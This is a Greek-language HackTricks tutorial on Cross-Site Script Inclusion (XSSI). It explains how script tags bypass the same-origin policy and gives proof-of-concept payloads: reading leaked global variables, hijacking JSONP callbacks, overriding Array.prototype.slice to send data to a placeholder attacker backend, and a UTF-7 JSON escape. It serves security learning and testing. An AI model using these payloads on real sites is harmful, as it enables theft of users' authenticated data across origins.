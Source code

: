# XSSI (Cross-Site Script Inclusion)

{{#include ../banners/hacktricks-training.md}}

## Basic Information

**Cross-Site Script Inclusion (XSSI)** είναι μια ευπάθεια που προκύπτει από τη φύση της ετικέτας `script` στο HTML. Σε αντίθεση με τους περισσότερους πόρους, οι οποίοι υπόκεινται στην **Same-Origin Policy (SOP)**, τα σενάρια μπορούν να συμπεριληφθούν από διαφορετικά domains. Αυτή η συμπεριφορά προορίζεται να διευκολύνει τη χρήση βιβλιοθηκών και άλλων πόρων που φιλοξενούνται σε διαφορετικούς διακομιστές, αλλά εισάγει επίσης έναν πιθανό κίνδυνο ασφαλείας.

### Key Characteristics of **XSSI**:

- **Bypass of SOP**: Τα σενάρια εξαιρούνται από την **Same-Origin Policy**, επιτρέποντάς τους να συμπεριλαμβάνονται σε διαφορετικά domains.
- **Data Exposure**: Ένας επιτιθέμενος μπορεί να εκμεταλλευτεί αυτή τη συμπεριφορά για να διαβάσει δεδομένα που φορτώνονται μέσω της ετικέτας `script`.
- **Impact on Dynamic JavaScript/JSONP**: **XSSI** είναι ιδιαίτερα σχετικό για δυναμικό JavaScript ή **JSON with Padding (JSONP)**. Αυτές οι τεχνολογίες συχνά χρησιμοποιούν πληροφορίες "ambient-authority" (όπως cookies) για αυθεντικοποίηση. Όταν γίνεται αίτημα σενάριου σε διαφορετικό host, αυτά τα διαπιστευτήρια (π.χ., cookies) περιλαμβάνονται αυτόματα στο αίτημα.
- **Authentication Token Leakage**: Εάν ένας επιτιθέμενος μπορεί να παραπλανήσει τον περιηγητή ενός χρήστη να ζητήσει ένα σενάριο από έναν διακομιστή που ελέγχει, μπορεί να έχει πρόσβαση σε ευαίσθητες πληροφορίες που περιέχονται σε αυτά τα αιτήματα.

### Types

1. **Static JavaScript** - Αυτό αντιπροσωπεύει τη συμβατική μορφή του XSSI.
2. **Static JavaScript with Authentication** - Αυτός ο τύπος είναι διακριτός επειδή απαιτεί αυθεντικοποίηση για πρόσβαση.
3. **Dynamic JavaScript** - Περιλαμβάνει JavaScript που δημιουργεί δυναμικά περιεχόμενο.
4. **Non-JavaScript** - Αναφέρεται σε ευπάθειες που δεν περιλαμβάνουν άμεσα JavaScript.

**Οι παρακάτω πληροφορίες είναι μια σύνοψη του [https://www.scip.ch/en/?labs.20160414](https://www.scip.ch/en/?labs.20160414)**. Ελέγξτε το για περισσότερες λεπτομέρειες.

### Regular XSSI

Σε αυτή την προσέγγιση, ιδιωτικές πληροφορίες είναι ενσωματωμένες μέσα σε ένα παγκοσμίως προσβάσιμο αρχείο JavaScript. Οι επιτιθέμενοι μπορούν να εντοπίσουν αυτά τα αρχεία χρησιμοποιώντας μεθόδους όπως η ανάγνωση αρχείων, αναζητήσεις λέξεων-κλειδιών ή κανονικές εκφράσεις. Μόλις εντοπιστούν, το σενάριο που περιέχει ιδιωτικές πληροφορίες μπορεί να συμπεριληφθεί σε κακόβουλο περιεχόμενο, επιτρέποντας μη εξουσιοδοτημένη πρόσβαση σε ευαίσθητα δεδομένα. Ένα παράδειγμα τεχνικής εκμετάλλευσης φαίνεται παρακάτω:
```html
<script src="https://www.vulnerable-domain.tld/script.js"></script>
<script>
alert(JSON.stringify(confidential_keys[0]))
</script>
```
### Dynamic-JavaScript-based-XSSI και Authenticated-JavaScript-XSSI

Αυτοί οι τύποι επιθέσεων XSSI περιλαμβάνουν την προσθήκη εμπιστευτικών πληροφοριών δυναμικά στο σενάριο ως απάντηση σε αίτημα χρήστη. Η ανίχνευση μπορεί να γίνει στέλνοντας αιτήματα με και χωρίς cookies και συγκρίνοντας τις απαντήσεις. Εάν οι πληροφορίες διαφέρουν, αυτό μπορεί να υποδηλώνει την παρουσία εμπιστευτικών πληροφοριών. Αυτή η διαδικασία μπορεί να αυτοματοποιηθεί χρησιμοποιώντας εργαλεία όπως το [DetectDynamicJS](https://github.com/luh2/DetectDynamicJS) Burp extension.

Εάν τα εμπιστευτικά δεδομένα αποθηκεύονται σε μια παγκόσμια μεταβλητή, μπορούν να εκμεταλλευτούν χρησιμοποιώντας παρόμοιες μεθόδους με αυτές που χρησιμοποιούνται στο Regular XSSI. Ωστόσο, εάν τα εμπιστευτικά δεδομένα περιλαμβάνονται σε μια απάντηση JSONP, οι επιτιθέμενοι μπορούν να καταλάβουν τη συνάρτηση callback για να ανακτήσουν τις πληροφορίες. Αυτό μπορεί να γίνει είτε με την παραποίηση παγκόσμιων αντικειμένων είτε με την εγκατάσταση μιας συνάρτησης που θα εκτελείται από την απάντηση JSONP, όπως φαίνεται παρακάτω:
```html
<script>
var angular = function () {
return 1
}
angular.callbacks = function () {
return 1
}
angular.callbacks._7 = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script
src="https://site.tld/p?jsonp=angular.callbacks._7"
type="text/javascript"></script>
```

```html
<script>
leak = function (leaked) {
alert(JSON.stringify(leaked))
}
</script>
<script src="https://site.tld/p?jsonp=leak" type="text/javascript"></script>
```
Για μεταβλητές που δεν βρίσκονται στο παγκόσμιο namespace, η _παρέμβαση πρωτοτύπου_ μπορεί μερικές φορές να εκμεταλλευτεί. Αυτή η τεχνική εκμεταλλεύεται το σχεδιασμό της JavaScript, όπου η ερμηνεία του κώδικα περιλαμβάνει την περιήγηση στην αλυσίδα πρωτοτύπων για να εντοπιστεί η καλούμενη ιδιότητα. Με την αντικατάσταση ορισμένων συναρτήσεων, όπως το `slice` του `Array`, οι επιτιθέμενοι μπορούν να αποκτήσουν πρόσβαση και να διαρρεύσουν μη παγκόσμιες μεταβλητές:
```javascript
Array.prototype.slice = function () {
// leaks ["secret1", "secret2", "secret3"]
sendToAttackerBackend(this)
}
```
Περισσότερες λεπτομέρειες σχετικά με τα επιθετικά διανύσματα μπορούν να βρεθούν στο έργο του Ερευνητή Ασφαλείας [Sebastian Lekies](https://twitter.com/slekies), ο οποίος διατηρεί μια λίστα με [vectors](http://sebastian-lekies.de/leak/).

### Non-Script-XSSI

Η έρευνα του Takeshi Terada εισάγει μια άλλη μορφή XSSI, όπου τα αρχεία Non-Script, όπως το CSV, διαρρέουν διασυνοριακά περιλαμβάνοντας τα ως πηγές σε μια ετικέτα `script`. Ιστορικές περιπτώσεις XSSI, όπως η επίθεση του Jeremiah Grossman το 2006 για την ανάγνωση ενός πλήρους βιβλίου διευθύνσεων Google και η διαρροή δεδομένων JSON του Joe Walker το 2007, αναδεικνύουν τη σοβαρότητα αυτών των απειλών. Επιπλέον, ο Gareth Heyes περιγράφει μια παραλλαγή επίθεσης που περιλαμβάνει κωδικοποιημένα σε UTF-7 JSON για να ξεφύγει από τη μορφή JSON και να εκτελέσει σενάρια, αποτελεσματική σε ορισμένους περιηγητές:
```javascript
;[
{
friend: "luke",
email:
"+ACcAfQBdADsAYQBsAGUAcgB0ACgAJwBNAGEAeQAgAHQAaABlACAAZgBvAHIAYwBlACAAYgBlACAAdwBpAHQAaAAgAHkAbwB1ACcAKQA7AFsAewAnAGoAbwBiACcAOgAnAGQAbwBuAGU-",
},
]
```

```html
<script
src="http://site.tld/json-utf7.json"
type="text/javascript"
charset="UTF-7"></script>
```
{{#include ../banners/hacktricks-training.md}}
